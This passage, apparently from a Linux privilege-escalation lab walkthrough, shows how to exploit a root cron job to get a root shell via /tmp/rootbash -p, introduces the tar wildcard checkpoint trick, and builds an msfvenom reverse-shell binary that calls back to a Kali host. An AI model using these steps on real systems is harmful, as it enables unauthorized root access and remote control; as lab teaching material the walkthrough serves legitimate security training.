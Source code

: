Make sure that the file is executable

**Victim**

```
chmod +x /home/user/overwrite.sh
```

Wait for the cron job to run (should not take longer than a minute). Run the /tmp/rootbash command with -p to gain a shell running with root privileges:

**Victim**

```
/tmp/rootbash -p
```

<figure><img src="../../.gitbook/assets/image (4) (3) (2) (2).png" alt=""><figcaption></figcaption></figure>

## Cron Jobs - Wildcards

View the contents of the other cron job script

**Victim**

```
cat /usr/local/bin/compress.sh
```

<figure><img src="../../.gitbook/assets/image (10) (1) (2) (1) (2).png" alt=""><figcaption></figcaption></figure>

Note that the tar command is being run with a wildcard (\*) in your home directory.

Take a look at the GTFOBins page for [tar](https://gtfobins.github.io/gtfobins/tar/). Note that tar has command line options that let you run other commands as part of a checkpoint feature.

Use msfvenom on your Kali box to generate a reverse shell ELF binary. Update the LHOST IP address accordingly:

**Kali**

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=$KALI LPORT=4444 -f elf -o shell.elf
```
